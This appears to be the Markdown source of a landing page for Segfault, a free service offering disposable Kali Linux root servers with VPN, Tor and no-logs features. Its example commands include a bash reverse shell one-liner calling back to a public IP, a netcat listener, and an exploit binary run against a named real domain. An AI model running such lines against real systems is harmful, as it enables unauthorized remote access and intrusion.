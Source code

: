 ```yaml
---
layout: default
title: Segfault
description: Disposable Root Servers.
---
```


<!-- Begin of ugly CSS navigation styling hack -->
<!-- <style>a[href="/segfault/"] { font-weight: bold; }</style> -->
<!-- End of ugly CSS navigation styling hack -->

{% include nav-segfault-v1.html margin-top="0" margin-bottom="4rem" %}

<div style="text-align: center;">
    <h1><em>Making the world suck less one<br>TCP packet at a time...</em></h1>
</div>

## Log in

```shell
ssh root@segfault.net # The password is 'segfault'
```
{:refdef: style="text-align: center;"}
__NEW: Start a [Remote Desktop](https://shell.segfault.net) inside your Browser.__
{: refdef}

{:refdef: style="text-align: center;"}
![login screen](sf-login.png){:height="80%" width="80%"}
{: refdef}

## What it does

__Segfault__ offers free unlimited Root Servers. A new server (inside a Virtual Machine) is created for every SSH connection.

* Dedicated `Root Server` for every user.
* Pre-installed tools on Kali-Linux.
* Outgoing traffic is routed through NordVPN/CryptoStorm/Mullvad.
* Reverse TCP/UDP port on a public IP.
* Transparent TOR to connect to `.onion` addresses.
* Log in via `.onion`, `.gsocket` or direct `ssh` (port 22 or 443).
* Encrypted DNS traffic (DNS over HTTPS).
* Pre-configured `.onion` web server. Just put your files in /onion.
* Encrypted storage in `/sec` and `/home` with your password. 
* Encrypted storage is only accessible while you are logged in. Keys are wiped on log out.
* Only the user can decrypt the data. We do not have the key.
* No Logs.

## Show me!

The servers are a great place to compile *stuff* and to test *stuff*.

**Install any app you like:**

```shell
apt install nmap && nmap -thc
```

**Work the Internet**

```shell
ping 1.1.1.1
curl ipinfo.io | jq
ssh blah@anotherserver.com
./7350-sshx3-expl openbsd.org
```

**Publish your webpage on the Darknet:**

```shell
# Share files anonymously:
echo "My First File Shared on The Onion Router (TOR) network" >/onion/helloworld.txt

# Or publish a full webpage (using Markdown syntax):
# Edit your webpage in /sec/www/content/*.md and then publish them:
cd /sec/www && make html
```

**Start Firefox or a Remote Desktop X11/GUI:**

```shell
startxvnc
```

**Work the DarkNet:**

```shell
w3m http://6nhmgdpnyoljh5uzr5kwlatx2u3diou4ldeommfxjz3wkhalzgjqxzqd.onion/
ssh root@ta6kb6vqm3vd7vlgvf7k4nbhfzst2yfy52t6dqzmz2plteewn7ynmtad.onion
```

**Connect to IRCNet:**

```shell
su user -c "irssi -c ircnet -n MyNickName"
```

**We allow port forwarding and proxies:**

```shell
ssh -D 127.0.0.1:1080 root@segfault.net
# then from another Terminal on your workstation:
curl -x socks5h://0 ipinfo.io
curl -x socks5h://0 http://6nhmgdpnyoljh5uzr5kwlatx2u3diou4ldeommfxjz3wkhalzgjqxzqd.onion/ 
```
<!-- Windows does not like -D 1080 and needs 127.0.0.1:1080 (and does not like 127.1:1080 either) -->

**Connect to your own public PORT:**

```shell
# On your server:
nc -vnlp 34868 # Find your IP & PORT during first log in.

# On another server start a connect back reverse shell to your IP & PORT:
setsid bash -i &>/dev/tcp/185.117.118.23/34868 0>&1 &
```

## How it works

Read the [FAQ](faq) and join us on [Telegram](https://t.me/thcorg) or read the source on [GitHub](https://github.com/hackerschoice/segfault).

This is a **free service** and there are [some restrictions](free) in place. You may want to [upgrade your server](upgrade) and go unrestricted.

## Similar Services

- [SDF Public Access Unix](http://sdf.org/)
- [WindowsOnFly](https://app.apponfly.com/trial)
- [OnWorks](https://www.onworks.net/os-distributions/debian-based/free-kali-linux-online)
- [FreeShell](https://freeshell.de/)
- [Oracle Cloud Free Tier](https://www.oracle.com/uk/cloud/free/)
- [Play With Docker](https://www.docker.com/play-with-docker/)
- [Trash.net](https://www.trash.net/)
- [Tilde.club](http://tilde.club/)
- [Project SF](https://projectsegfau.lt/)
- [and many others...](https://free-for.dev/)

## Love Research. Hate Abuse.

We do not tolerate abuse. Contact us on [Telegram](https://t.me/thcorg) or email root at thc.org if you have any concerns.

## Contact

{% include contact-details.md %}

